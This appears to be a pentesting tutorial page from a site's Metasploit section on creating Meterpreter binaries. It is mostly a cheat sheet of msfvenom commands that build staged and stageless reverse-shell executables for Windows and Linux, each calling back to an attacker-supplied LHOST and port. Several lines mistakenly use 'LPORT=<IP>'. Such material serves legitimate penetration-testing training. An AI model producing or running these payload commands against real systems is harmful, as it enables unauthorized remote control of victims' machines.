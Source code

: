 ```yaml
---
title: "Creating a Meterpreter Binary"
layout: single
permalink: /library/pentesting/metasploit/meterpreter-binary-creation/
author_profile: false
classes: wide
header:
    image: _pages/library/pentesting/metasploit/metasploit.jpg
sidebar:
    nav: "metasploit"
---
```


## Introduction

Creating a Meterpreter binary involves generating a payload that, when executed on a target system, establishes a connection back to the attacker's machine, providing a versatile and powerful interface for post-exploitation activities. This process is often a crucial aspect of penetration testing or red teaming exercises.

## Using *msfvenom*

### Windows

#### Staged Payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<IP> -f exe > shell-x86.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Stageless Payload:
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<IP> -f exe > shell-x86.exe

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux

#### Staged Payload:

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Stageless Payload:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Check below link for more exploit and payload usage of *msfvenom:*** 
https://www.offsec.com/metasploit-unleashed/msfvenom/

## Video Demonstration

{% include video id="DvqY8NZIueI" provider="youtube" %}

## References
- https://www.offsec.com/metasploit-unleashed/generating-payloads/
- https://www.offsec.com/metasploit-unleashed/msfvenom/
- https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/